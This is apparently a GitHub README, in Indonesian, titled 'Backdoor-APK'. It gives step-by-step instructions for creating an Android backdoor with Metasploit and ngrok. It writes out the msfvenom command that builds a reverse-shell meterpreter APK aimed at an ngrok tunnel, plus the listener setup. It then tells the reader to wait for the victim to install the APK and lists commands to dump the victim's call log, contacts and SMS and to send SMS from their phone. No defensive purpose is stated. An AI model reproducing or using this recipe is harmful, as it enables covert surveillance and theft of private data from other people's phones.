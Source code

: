 # Backdoor-APK
Cara Membuat Backdoor Untuk Android Dengan Metaspolit Dan Ngrok

**1. Install Metasploit**

**2. Install Ngrok**

**3. Buat Akun Ngrok**

**4. Masukkan Token Ngrok**
<br> '$./ngrok authtoken Masukkan Token' ;

**5. Buat Port Ngrok**
<br> $./ngrok http 4455

**6. Melihat Status Ngrok**
<br> $ngrok tcp 4455 (port sesuai yang kita buat di awal)

**7. Jalankan Metasploit**
<br> $msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=11610 R > /home/x-ploit001/Backdoor.apk
<br> Ket. Untuk LHOST dan LPORT diambil dari forwarding status ngrok

**8. Menjalankan Msfconsole**
<br> $msfconsole

**9. EKSEKUSI**
<br> msf > use multi/handler
<br> msf exploit(muti/handler) > set payload android/meterpreter/reverse_tcp
<br> msf exploit(muti/handler) > set lhost 0.0.0.0
<br> msf exploit(muti/handler) > set lport 4455
<br> msf exploit(muti/handler) > exploit

**10. Menunggu Korban Install APK**
**11. Perintah Remoting**
<br> dump_callog (Mendapatkan log panggilan di hp korban)
<br> dump_contacs (Mendapatkan kontak di hp korban)
<br> dump_sms (Mendapatkan sms masuk dan keluar di hp korban)
<br> send_sms (Mengirim sms menggunakan hp korban)
